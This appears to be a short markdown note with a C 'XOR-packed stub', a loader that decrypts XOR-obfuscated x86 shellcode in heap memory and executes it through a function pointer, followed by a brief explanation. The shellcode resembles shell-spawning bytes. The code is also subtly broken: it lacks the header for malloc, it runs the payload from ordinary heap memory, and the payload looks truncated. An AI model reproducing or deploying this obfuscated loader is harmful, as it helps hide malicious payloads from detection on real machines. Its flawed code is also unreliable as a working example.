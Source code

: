 
---


**XOR-packed stub in C**

```
#include <stdio.h>
#include <stdint.h>
#include <string.h>

// XOR key
#define KEY 0xAA

// Encrypted payload (XOR'd version of the original shellcode/message)
uint8_t encrypted_payload[] = {
    0xEB ^ KEY, 0x1E ^ KEY, 0x5E ^ KEY, 0x31 ^ KEY, 0xC0 ^ KEY,
    0x88 ^ KEY, 0x46 ^ KEY, 0x0A ^ KEY, 0x88 ^ KEY, 0x46 ^ KEY,
    0x0B ^ KEY, 0xB0 ^ KEY, 0x0B ^ KEY, 0x89 ^ KEY, 0xF3 ^ KEY,
    0x8D ^ KEY, 0x4E ^ KEY, 0x0A ^ KEY, 0x8D ^ KEY, 0x56 ^ KEY,
    0x0B ^ KEY, 0xCD ^ KEY, 0x80 ^ KEY, 0xE8 ^ KEY, 0xDD ^ KEY,
    0xFF ^ KEY, 0xFF ^ KEY, 0xFF ^ KEY, 's' ^ KEY, 'h' ^ KEY,
    0x00 ^ KEY
};

// Decrypt and execute
int main() {
    size_t len = sizeof(encrypted_payload);
    uint8_t *payload = malloc(len);
    if (!payload) return 1;

    // Decrypt
    for (size_t i = 0; i < len; i++) {
        payload[i] = encrypted_payload[i] ^ KEY;
    }

    // Cast to function and execute
    void (*func)() = (void (*)())payload;
    func();

    free(payload);
    return 0;
}
```

---
#### How it works?

>[!important]
>
> - The payload is XOR-encrypted with a key (`0xAA`).
 >- At runtime, the stub decrypts it in memory.
> - It then casts the decrypted buffer to a function pointer and executes it.

